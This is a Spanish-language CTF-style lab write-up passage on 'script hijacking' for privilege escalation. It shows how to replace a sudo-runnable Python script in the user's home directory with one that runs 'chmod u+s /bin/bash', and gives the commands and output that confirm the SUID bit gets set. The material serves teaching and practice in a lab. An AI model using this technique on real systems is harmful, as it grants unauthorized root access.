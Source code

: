 <br>

<h2 id="Hijacking2">Aplicando Script Hijacking para Escalar Privilegios</h2>

¿De qué se trata esto?

| **Script Hijacking** |
|:-----------:|
| *Script Hijacking es un tipo de ataque en el que un atacante sustituye, modifica o redirige un script legítimo en un sistema para ejecutar código malicioso o no autorizado. Esto puede ocurrir en varios contextos, pero se basa en el principio de que el script legítimo se ejecuta con privilegios elevados o en un entorno donde se le confía su ejecución.* |

<br>

La idea es, que como este script está dentro del directorio del **usuario arasaka**, este usuario puede tener la capacidad de renombrar, mover o eliminar este script, solamente no puede modificarlo porque el dueño es el **usuario Root**.

Vamos a comprobarlo, tratando de renombrar el script:
```bash
arasaka@Cyberpunk:~$ mv randombase64.py nada.py
arasaka@Cyberpunk:~$ ls
nada.py  __pycache__  user.txt
```
Sí se pudo.

Ahora podemos crear el mismo script, pero agregaremos la **librería os** y la instrucción para cambiar los permisos de la **Bash**:

```python
import base64
import os

message = input("Enter your string: ")
message_bytes = message.encode("ascii")
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode("ascii")

print(base64_message)

os.system("chmod u+s /bin/bash")
```

Revisa los permisos de la **Bash**:
```bash
arasaka@Cyberpunk:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```

Excelente, vamos a ejecutarlo como el **usuario Root**:
```bash
arasaka@Cyberpunk:~$ sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
[sudo] contraseña para arasaka: 
Enter your string: hackeado
aGFja2VhZG8=
```
Funciona, no hubo un problema en la ejecución.

Veamos los permisos de la **Bash**:
```bash
arasaka@Cyberpunk:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Excelente, realmente funciono.
